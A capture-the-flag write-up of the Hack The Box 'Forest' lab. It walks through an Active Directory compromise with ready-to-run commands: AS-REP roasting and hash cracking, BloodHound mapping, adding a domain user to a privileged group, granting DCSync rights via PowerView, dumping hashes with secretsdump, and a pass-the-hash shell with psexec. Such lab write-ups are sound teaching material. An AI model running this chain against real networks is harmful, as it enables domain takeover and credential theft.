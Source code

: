 ```yaml
---
title: "CTF Writeup: Forest"
date: 2025-01-22
categories: [CTF, Writeup, hackthebox]
tags: [AD, DcSync, htb]
---
```


# Hack The Box - Forest

## Description
Forest is an easy machine that focusses on Active Directory and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/forest_TCP 10.129.84.192
```
![alt text](/assets/screenshots/forest/image.png)
Seems that nothing special is running on the machine other then what we could expect from a AD machine.

Let's start with some user enumeration. We can use enum4linux for this.
```bash
# enum4linux -a -U 10.129.84.192
```
![alt text](/assets/screenshots/forest/image-1.png)<br>
I got some usernames!

Now that we found some usernames we can try and use AS-REP roasting. With kerberoasting we need to use credentials to authenticate with. But with AS-REP roasting we can get the hashes for accounts that have the 'do not require kerberos preauth' set to true.

## Exploitation

### Step 2: AS-REP Roasting

To make the AS-REP Roasting a bit faster I made a for loop to walk through a list of usernames. This is much easier then having to run the command multiple times for each username.

```bash
# for user in $(cat usernames.txt); do /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.187.133 htb/${user} | grep -v Impacket;
```
![alt text](/assets/screenshots/forest/image-2.png)<br>
I got a hit on the hash for the user svc-alfresco!

Let's use hashcat to try and crack the hash.
```bash
# sudo hashcat -m 18200 svc_alfresco.hash /usr/share/wordlists/rockyou.txt.gz --force
```
![alt text](/assets/screenshots/forest/image-3.png)<br>
And got a hit on the password! This means I can now authenticate to the target machine using the alfresco credentials.

Using netexec to test if the credentials are working.
```bash
# netexec smb 10.129.187.133 -u "svc-alfresco" -p "[password]" --shares
```
![alt text](/assets/screenshots/forest/image-4.png)<br>
They are working and have SMB rights. I could also use netexec to run the scripts needed for bloodhound enumeration. Doing this I can get a detailed picture of the AD network and the relations between users, groups and more.
```bash
# netexec ldap 10.129.187.133 -u "svc-alfresco" -p "[password]" --bloodhound --collection All --dns-server 10.129.187.133
```
![alt text](/assets/screenshots/forest/image-5.png)<br>

It worked, I can now import this into bloodhound and see the relation in this AD envirionment.
![alt text](/assets/screenshots/forest/image-7.png)<br>
It seems that SVC-alfresco is member of the Account Operators group by a couple of group jumps. This means he can create new users to the domain.

Looking a bit deeper into the Account Operators group I can see that they have GenericAll rights on the Exchange Windows Permissions group.
![alt text](/assets/screenshots/forest/image-8.png)<br>
The Exchange Windows Permissions groups has WriteDacl (Discretionary Access Control List) rights on the HTB.Local environment. This means that a member of the Exchange Windows Permissions group can give any user DcSync privileges.

Before I look into this attack scenario further let's first try and login using the credentials and get the user.txt file. evil-winrm can be used to login to the target machine.
```bash
# evil-winrm -i 10.129.187.133 -u svc-alfresco -p [password]
```
![alt text](/assets/screenshots/forest/image-9.png)<br>

Now I should be able to get that user.txt file.
![alt text](/assets/screenshots/forest/image-19.png)<br>

# Privilege Escalation
Now to find a way to elevate privileges.

From the bloodhound insight, I know that our user svc-alfresco is a member of the privileged IT accounts. This means he can create a new domain account and because the Privileged IT account it part of the Account operators and the account operator have generic all over Exchange windows permissions we can add the user to that group!
And to make a home-run that group has WriteDacl on the htb.domain which we can use to get a DcSync and get the hashes!

First step is to create a new user on the domain. Which we can do because we are member of the Account Operators group.
```bash
# net user tech password123! /add /domain
```
![alt text](/assets/screenshots/forest/image-10.png)<br>

Now that I created a new user "tech" I can add him to the Exchange Windows Permissions group.
```bash
# net group "Exchange Windows Permissions" /add tech
```
![<alt text>](/assets/screenshots/forest/image-11.png)<br>
Noice! Our tech user is now member of the Exchange Windows Permissions group.

Now I need to give tech the rights to DcSync on the domain.
In order to do this I need Powerview.ps1!

I can simply use evil-winrm to upload powerview.ps1
![alt text](/assets/screenshots/forest/image-12.png)<br>

Now start Powerview.ps1.
```bash
# . ./Powerview.ps1
```
![alt text](/assets/screenshots/forest/image-13.png)<br>

Now I will run the following commands.
```bash
# $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
# $Cred = New-Object System.Management.Automation.PSCredential('htb\tech', $SecPassword)
# Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tech -Rights DCSync
```
![alt text](/assets/screenshots/forest/image-14.png)<br>

Our user tech should now be able to use DcSync and able to get all the users hashes!
Let's use impacket-secretsdump to execute our DcSync attack.

```bash
# impacket-secretsdump htb.local/tech:'password123!'@10.129.187.133
```
![alt text](/assets/screenshots/forest/image-15.png)<br>
I can see the administrator and his hash!

Now use a tool like psexec to get a shell on the system.
```bash
# impacket-psexec administrator@10.129.187.133 -hashes hash:hash
```
![alt text](/assets/screenshots/forest/image-16.png)<br>
Now I can get that root.txt!

![alt text](/assets/screenshots/forest/image-17.png)<br>
Noice!

![alt text](/assets/screenshots/forest/image-18.png)<br>

## Conclusion
To summarize this machine. It was a AD machine that had some misconfigurations like not enforcing kerberos authentication. Also the privileges for the users are not restricing enough and led to a total takeover in this scenario.

## Lessons Learned
- check the accounts are kerberoastable or even asking for kerberos auth.
- check if each user needs certain privileges it has before giving it.